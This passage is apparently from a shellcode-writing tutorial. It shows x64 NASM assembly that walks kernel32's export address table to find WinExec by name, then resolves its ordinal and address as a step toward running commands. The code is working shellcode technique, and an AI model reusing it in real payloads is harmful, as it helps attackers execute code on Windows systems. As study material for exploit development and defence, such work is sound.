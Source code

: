**Now, let's find the function in question:**

```nasm
; Loop over Export Address Table to find WinApi names
kernel32findfunction: 
    jecxz FunctionNameNotFound    ; If ecx is zero (function not found), set breakpoint
    xor ebx,ebx                   ; Zero EBX
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA to get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
   
    mov r9, qword [rax]                ; R9 = "WinExec"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; jump if zero flag is set (found function name!)
	jnz kernel32findfunction             ; didn't find the name, so keep loopin til we do!

FunctionNameFound:
push rcx                               ; found it, so save it for later
jmp OrdinalLookupSetup

FunctionNameNotFound:
int3
```

**And now the final stretch of code:**

```nasm
OrdinalLookupSetup:  ;We found our target WinApi position in the functions lookup
   pop r15         ;getprocaddress position
   js OrdinalLookup
   
OrdinalLookup:   
   mov rcx, r15                  ; move our function's place into RCX
   xor r11, r11                  ; clear R11 for use
   mov r11d, [rdx+0x24]          ; AddressOfNameOrdinals = RVA
   add r11, r8                   ; AddressOfNameOrdinals = VMA
   ; Get the function ordinal from AddressOfNameOrdinals
   inc rcx
   mov r13w, [r11+rcx*2]         ; AddressOfNameOrdinals + Counter. RCX = counter
   ;With the function ordinal value, we can finally lookup the WinExec address from AddressOfFunctions.

   xor r11, r11
   mov r11d, [rdx+0x1c]          ; AddressOfFunctions = RVA
   add r11, r8                   ; AddressOfFunctions VMA in R11. Kernel32+RVA for function addresses
   mov eax, [r11+r13*4]          ; function RVA.
   add rax, r8                   ; Found the WinExec Api address!!!
   push rax                      ; Store function addresses by pushing it temporarily
   js executeit
```

**Let's see if our WinExec API address is now in RAX:**
